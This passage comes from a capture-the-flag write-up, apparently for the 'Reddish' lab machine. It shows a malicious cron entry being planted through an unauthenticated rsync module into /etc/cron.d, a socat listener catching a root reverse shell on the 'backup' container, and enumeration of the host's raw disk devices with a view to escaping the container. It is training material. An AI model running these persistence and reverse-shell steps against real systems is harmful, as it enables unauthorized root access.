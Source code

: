 ```bash
root@www:/tmp# cat /tmp/shell
* * * * * root sh /tmp/shell.sh
```

And transfer it to the `cron.d` directory on `backup`.

```bash
root@www:/tmp# rsync -a shell rsync://backup:873/src/etc/cron.d/
rsync -a shell rsync://backup:873/src/etc/cron.d/
```

Now we start our `socat` listener on `www`.

```bash
root@www:/tmp# /tmp/socat-static TCP-LISTEN:9010 STDOUT
/tmp/socat-static TCP-LISTEN:9010 STDOUT
```

In a minute we get the shell.

```bash
root@www:/tmp# /tmp/socat-static TCP-LISTEN:9010 STDOUT
/tmp/socat-static TCP-LISTEN:9010 STDOUT
bash: cannot set terminal process group (8498): Inappropriate ioctl for device
bash: no job control in this shell

root@backup:~# id
uid=0(root) gid=0(root) groups=0(root)

root@backup:~# hostname
backup
```

## Reddish - shell

During the enumeration here, we noticed that one this container we seem to be able to see more things on `/dev` directory.

```bash
root@backup:~# ls /dev/ | wc -l
180
```

Compared with the `www` container

```bash
root@www:/tmp# ls /dev/ | wc -l
15
```

It seems we may have access to the local disks of the `reddish` machine here.

```bash
root@backup:~# ls -lha /dev/sda*

brw-rw---- 1 root disk 8, 0 Aug 22 21:39 /dev/sda
brw-rw---- 1 root disk 8, 1 Aug 22 21:39 /dev/sda1
brw-rw---- 1 root disk 8, 2 Aug 22 21:39 /dev/sda2
brw-rw---- 1 root disk 8, 3 Aug 22 21:39 /dev/sda3
```
